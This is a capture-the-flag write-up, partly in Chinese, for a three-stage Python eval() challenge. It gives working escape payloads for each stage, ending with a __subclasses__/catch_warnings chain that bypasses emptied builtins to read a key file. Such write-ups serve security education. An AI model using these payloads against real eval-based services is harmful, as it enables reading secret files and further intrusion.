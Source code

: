 # ProcrastinatorProgrammer

*I may have procrastinated security for `procrastinate.chal.2021.sunshinectf.org:65000`. I may have been watching too many Tom Cruise movies instead of releasing this... uh... last year.*

*But don't worry! The keys to the kingdom are split into three parts... you'll never find them all!*

*Flag will be given by our backend in the standard `sun{}` format, but make sure you put all the pieces together!*

---
1. Part One

```
Welcome to the ProcrastinatorProgrammer backend.
Please give me an equation! Any equation! I need to be fed some data to do some processing!I'm super secure, and can use all python! I just use `eval()` on your data and then whamo, python does all the work!Whatever you do, don't look at my ./key!

Give me an equation please!
```

`eval()`,使用`open('key','r').readlines()`得到flag的第一部分`sun{eval_is`

2. Part Two

```
Welcome to the ProcrastinatorProgrammer backend.
Please give me an equation! Any equation! I need to be fed some data to do some processing!Due to technical difficulties with the last challenge, I've upped my ante! Now I know it's secure!I'm super secure, and can use most python math! I just use `eval(client_input, \{\}, safe_math_functions)` on your data and then whamo, python does all the work!Whatever you do, don't look at my ./key!
   
Halt in the name of the law!
   
What was the ./key found in the previous challenge?
```

`eval(client_input, {}, safe_math_functions)`,使用`__builtins__['open']('key', 'r').read()`得到flag的第二部分`_safe_`

3. Part Three

```
Welcome to the ProcrastinatorProgrammer backend.
Please give me an equation! Any equation! I need to be fed some data to do some processing!Due to technical difficulties with the previous set, I had to remove math lib support! In fact the only thing this can do is add and subtract now!... I think. Google tells me that it's secure now! Well the second result anyhow.I'm super secure, and can use a bit of python math! I just use `eval(client_input, {'__builtins__':\{\}})` on your data and then whamo, python does all the work!Whatever you do, don't look at my ./key!
   
Halt in the name of the law!
   
What was the ./key found in the previous challenge?
```

`eval(client_input, {'__builtins__':{}})`,使用`[x for x in ().__class__.__bases__[0].__subclasses__() if x.__name__ =="catch_warnings"][0]()._module.__builtins__['open']('key', 'r').read()`得到flag的第三部分`only_if_you_ast_whitelist_first}`

参考文章:

* [safe eval](http://lybniz2.sourceforge.net/safeeval.html)
* [python 沙箱逃逸与SSTI](https://misakikata.github.io/2020/04/python-%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8%E4%B8%8ESSTI/)


**flag:**`sun{eval_is_safe_only_if_you_ast_whitelist_first}`